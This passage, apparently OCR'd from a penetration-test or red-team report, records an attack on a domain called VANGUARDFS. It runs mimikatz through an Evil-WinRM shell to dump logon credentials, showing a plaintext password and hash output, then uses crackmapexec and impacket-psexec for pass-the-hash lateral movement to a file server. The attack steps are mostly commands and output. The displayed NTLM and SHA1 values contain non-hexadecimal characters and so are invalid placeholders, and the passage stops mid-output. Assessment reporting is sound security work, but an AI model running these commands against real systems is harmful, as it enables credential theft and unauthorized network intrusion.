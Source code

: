 ```bash
NT AUTHORITY\INTERACTIVE               Well-known group
VANGUARDFS\HR_Managers                 Group
VANGUARDFS\Domain Users                Group

# SUCCESS: WinRM shell on workstation
```

**Mimikatz Credential Dumping**
```powershell
*Evil-WinRM* PS C:\Users\jthompson\Documents> upload mimikatz.exe
*Evil-WinRM* PS C:\Users\jthompson\Documents> .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 523145 (00000000:0007f9c9)
Session           : Interactive from 1
User Name         : mrodriguez
Domain            : VANGUARDFS
Logon Server      : VFS-DC-02
Logon Time        : 09/13/2025 2:15:23 PM
SID               : S-1-5-21-3842547281-2943729470-1294839502-1104
        msv :
         [00000003] Primary
         * Username : mrodriguez
         * Domain   : VANGUARDFS
         * NTLM     : a1b2c3d4e5f6g7h8i9j0k1l2m3n4o5p6
         * SHA1     : 1a2b3c4d5e6f7g8h9i0j1k2l3m4n5o6p7q8r9s0
        tspkg :
        wdigest :
         * Username : mrodriguez
         * Domain   : VANGUARDFS
         * Password : ITAdmin@2024!

# EVIDENCE: IT Administrator credentials captured from memory
```

**Pass-the-Hash Lateral Movement**
```bash
# Using NTLM Hash for Authentication
crackmapexec smb 10.50.3.50 -u mrodriguez -H 'a1b2c3d4e5f6g7h8i9j0k1l2m3n4o5p6'

SMB         10.50.3.50      445    VFS-FS-01        [+] VANGUARDFS\mrodriguez:a1b2c3d4e5f6g7h8i9j0k1l2m3n4o5p6 (Pwn3d!)

# Obtaining Shell
impacket-psexec -hashes :a1b2c3d4e5f6g7h8i9j0k1l2m3n4o5p6 mrodriguez@10.50.3.50

[*] Requesting shares on 10.50.3.50.....
[*] Found writable share ADMIN$
[*] Uploading file mKzKqPOC.exe
[*] Opening SVCManager on 10.50.3.50.....
[*] Creating service XJvN on 10.50.3.50.....
[*] Starting service XJvN.....
```